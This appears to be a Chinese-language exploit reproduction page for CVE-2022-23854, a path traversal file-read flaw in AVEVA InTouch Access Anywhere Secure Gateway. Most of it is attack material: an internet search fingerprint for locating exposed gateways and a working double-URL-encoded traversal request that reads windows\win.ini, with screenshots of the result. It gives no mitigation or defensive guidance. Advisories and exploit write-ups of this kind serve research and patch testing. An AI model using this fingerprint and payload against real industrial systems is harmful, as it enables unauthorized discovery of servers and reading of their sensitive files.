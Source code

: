 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

# AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

```
AVEVA InTouch安全网关
```

## 网络测绘

```
body="InTouch Access Anywhere"
```

## 漏洞复现

登录页面

![image-20221017170909794](/images/202210171709863.png)

验证POC

```
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![image-20221017170935596](/images/202210171709651.png)

